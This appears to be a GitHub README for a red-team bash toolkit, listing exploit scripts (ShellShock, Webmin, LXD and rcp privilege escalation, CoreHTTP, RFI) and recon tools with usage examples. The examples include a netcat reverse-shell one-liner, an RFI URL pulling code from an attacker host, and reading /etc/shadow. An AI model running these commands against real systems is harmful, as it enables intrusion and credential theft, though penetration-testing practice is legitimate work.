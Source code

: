 # Bash
Collection of bash tools I wrote to make my life easier or test myself. The help switch defined for these scripts is written with the assumption these exist in a PATH environmnet variable. Typically commands such as these should be placed in /usr/local/bin. This is considered best practice for Linux. Most of these tools will be useful to Red Teamers.

## ADD COMMANDS TO /usr/local/bin
Enter the below commands to download this repo, make the .sh files executable and place the .sh executable files into your /usr/local/bin so you can use for example "getip" instead of ./getip.sh to execute the commands.
```sh
git clone https://github.com/tobor88/Bash
cd Bash
sudo chmod u+x *.sh
files=$(ls *.sh)
for f in $files; do cp "$f" /usr/local/bin/"${f%.sh}"; done
```
---
#### BASH EXPLOITS
- __CVE-2014-6271.sh__ This exploit is used to execute commands on a remote server vulnerable to the CVE-2014-6271 ShellShock vulnerability. It creates a webshell at /var/www/html/simple.php and uses curl to simulate a shell like session. Currently only able to issue one word commads. I plan adding more functionality in the future.
![ShellShock CVE-2015-6271](https://raw.githubusercontent.com/tobor88/Bash/master/shellshock.png)

- __CVE-2006-3392.sh__ This exploit is used to perform an unauthenticated remote file disclosure on Webmin version <1.29x.
```bash
./CVE-2006-3392.sh 10.11.1.141 10000 http /etc/shadow
```
![CVE-2006-3392](https://raw.githubusercontent.com/tobor88/Bash/master/cve20063392.png)

- __LXD Privilege Escalation__ This exploit can be used to escalate privileges in a Linux environment where the user is a member of the lxd group. 
```bash
# Example Usage:
./lxd_privesc.sh container01
# RESULTS
Device rootdisk added to container01
Device rootdisk removed from container01
[*] Execution completed
uid=0(root) gid=0(root) groups=0(root)
root@example:/dev/shm/.tobor# exit
```

- __CoreHTTP 0.5.3.1 - 'CGI' Arbitrary Command Execution__ This exploit is used to obtain a reverse shell from a remote server hosting a CoreHTTP instance version 0.5.3.1 or lower. CoreHTTP server fails to properly sanitize input before calling the popen() function in http.c. Define a reverse shell to execute. I have a common list on my site [Reverse Shells Here](https://roberthosborne.com/reverse-shells)
```bash
# Example Usage:
./corehttp-rev-shell.sh -u 'http://10.11.1.2:10443/foo.pl' -s 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.119.172 1338 >/tmp/f'
```
![corehttp-reverse-shell](https://raw.githubusercontent.com/tobor88/Bash/master/corehttp-rev-shell.png)

- __rfi-rce.sh__ This is a command that can be used to simplify RCE through a remote file inclusion vulnerability by exploiting it in a shell like fashion.
```bash
rfi-rce -f /var/www/html/evil.txt -u "http://target-ip/section.php?page=http://attacker-ip/evil.txt"
```
![rfi-rce.sh](https://raw.githubusercontent.com/tobor88/Bash/master/rfi-rce.png)

---
#### BASH COMMANDS
- __readid.sh__ This is complete. (Disaplys the /etc/passwd, /etc/shadow, or /etc/group files into an easy to read format)

![readid.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/readid_img.png)


- __getip.sh__ I view this as done. (Restrieves and displays the public and private IP addresses on a computer)

![getip.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/getip_img.png)


- __pingsweep.sh__ This works best when fping is installed on your Linux distro. If fping is not installed it will failover to using the ping command instead. The timeout for ping is set to 1 second so if you are using this with proxychains you may need to mess around with this setting.

![pingsweep.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/pingsweep_img.png)


- __portscan.sh__ In the future I will add more input validation and error handling. (Custom port scanner. Check all ports, one port, or a custom range of ports.)

![portscan.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/portscan_img.png)


- __massnmp.sh__ Script I built to quickly obtain SNMP information from a defined subnet range. This was written for Kali so it uses OneSixtyOne and SNMP-Check. If these are not already installed they will need to be for the script to work. This script will build 3 files in your /tmp directory which means on next restart they will be deleted. Enumerated SNMP info on different targets will be placed into a txt file in the $PWD the script was executed from.

![massnmp.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/massnmp.png)


- __absolutepathit.sh__ This command is used to convert all relative commands in a script to absolute path commands. To play this one safe I have it create a copy of the script you wrote and places it in a file called /tmp/absolutepathit_tmpinfo. This file has all comments removed from it and replaces any commands that have a result value obtained from the command $(which <cmd>) with the absolute path value result for that command. 
 Copy and paste the results into your script to ensure you dont lost your comments and to ensure any possible command words you have in echo quotations are what you want. 
 This is not perfect yet as you can see in the image below it misses curl.
 
 ![absolutepathit.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/absolutepathit_img.png) 

 To deal with that issue I added line 40 which will obtain commands that are located next to a ( character. This does not misinterpret _print_ in the __awk__ command. 
 
 ![absolutepathit.sh results improvement](https://raw.githubusercontent.com/tobor88/Bash/master/absolutepathit_img2.png)
 
 The issue I noticed came from another script came from a website in the bash script. This is because the slash is viewed as an escape character. Any contributions are welcome. This is still a work in progress.

- __MountDriveVMWworkstation.sh__ This is a simple script meant to be executed in order to quickly mount a defined Shared Folder in VMWare Workstation to a Linux VM running inside VMWare Workstation.
```sh
./MountDriveVMWworkstation.sh 
```

- __enablespoofing.sh__ This is a simple script meant to take care of the tasks neccessary to allow dns spoofing on Kali Linux. It enables port forwarding on ipv4 and allows DNS traffic.

- __dnslookup.sh__ This command is meant to perform a mas dns lookup based on an IPv4 address range. Returns output in the below format
```sh
--------------------------------------------
| IP Address              |     FQDN's     |
--------------------------------------------
2.2.0.10.in-addr.arpa DC.osbornepro.com.
4.2.0.10.in-addr.arpa DEV.osbornepro.com.
```

- __enum_dns_servers.sh__ This command is meant to return the DNS servers in a domain. This is most useful when having a local domains DNS server set in your /etc/resolv.conf file.
```sh
---------------
| DNS Servers |
---------------
dns1.osbornepro.com.
dns2.osbornepro.com.
```
- __rcp-suid-privesc.sh__ This can be used to exploit the SUID bit on rcp. This only works on certain Operating Systems. Successfully tested on Red Hat 6.2. THere is a perl version of this script on exploitdb.

- __suidcheck.sh__ Needs a lot of work (Checks for exploitable suid bits and attempts to exploit them if they exist. Also returns cron job scripts)
